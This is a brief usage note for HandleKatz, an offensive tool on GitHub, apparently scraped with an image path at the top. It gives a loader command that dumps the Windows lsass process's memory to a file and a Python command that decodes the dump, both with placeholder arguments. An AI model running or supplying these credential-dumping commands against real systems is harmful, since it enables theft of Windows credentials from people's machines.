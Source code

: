 ### source
https://github.com/codewhitesec/HandleKatz  

### dump lsass process using ReactOS MiniDumpWriteDumpA as Position Independent Code
```
loader.exe --pid:<pid> --outfile:<outfile>.dmp
```

### decode resulting dump
```
python3 Decoder.py -input <lsassDump>.dmp -output <outfile>.dmp
```


